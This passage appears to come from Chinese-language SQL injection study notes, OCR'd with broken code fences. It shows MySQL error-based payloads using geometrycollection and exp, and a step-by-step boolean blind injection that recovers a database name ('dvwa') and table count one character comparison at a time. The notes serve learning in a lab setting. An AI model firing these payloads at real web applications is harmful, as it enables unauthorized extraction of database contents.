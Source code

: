 >
>
>   ~~~nginx
>       and geometrycollection((select * from(select * from(select user()) a)b));
>   
>       exp()函数[使用版本：MySQL5.5.5 及以上版本] 
>       exp(~(select * from(select user()) a));
>   
>       ```
>   
>   -    布尔型报错盲注
>   
>       -   就是一个一个字母猜，猜对页面显示正常，猜错页面显示不正常，一直猜出数据库名称
>   
>       ```sql
>       猜数据库名：
>       and 's'=left(database(),1)--+
>       猜数据库名长度
>       and 8 = length(database()) --+
>   
>       得编写脚本
>       ```
>   
>       ```sql
>       -- 猜数据库名称
>   
>       -- 显⽰存在，说明数据库名的第⼀个字符的ascii值⼤于 97（⼩写字母a的ascii值）；
>       and ascii(substr(database(),1,1))>97 #，
>   
>       -- 显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 122（⼩写字母z的ascii值）；
>       and ascii(substr(database(),1,1))<122 #，
>   
>       -- 显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 109（⼩写字母m的ascii值）
>       and ascii(substr(database(),1,1))<109 #，
>   
>       -- 显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 103（⼩写字母g的ascii值）；
>       and ascii(substr(database(),1,1))<103 #，
>   
>       -- 显⽰不存在，说明数据库名的第⼀个字符的ascii值不 ⼩于100（⼩写字母d的ascii值）；
>       and ascii(substr(database(),1,1))<100 #，
>   
>       -- 显⽰存在，说明数据库名的第⼀个字符的ascii值等于100（⼩写字母d的ascii值），所以数据库名--- 的第⼀个字符的ascii值为100，即⼩写字母d。
>       and ascii(substr(database(),1,1))=100 #，
>   ~~~
>
>
>   ~~~sql
>       -- 重复以上步骤直到得出完整的数据库名dvwa
>       and ascii(substr(database(),n,1))>100
>   
>       substr（str,start,stop）
>       substr截取字符串str,从start开始截取，截取stop个字符
>       ```
>   
>   -   **猜解表数量**
>   
>       -   ```sql
>   
>           -- # 显⽰不存在，表示当前数据库中表不止一个
>           and (select count(table_name) from information_schema.tables where table_schema=database())=1 
>   
>           -- # 显⽰存在，表示当前数据库表有两个
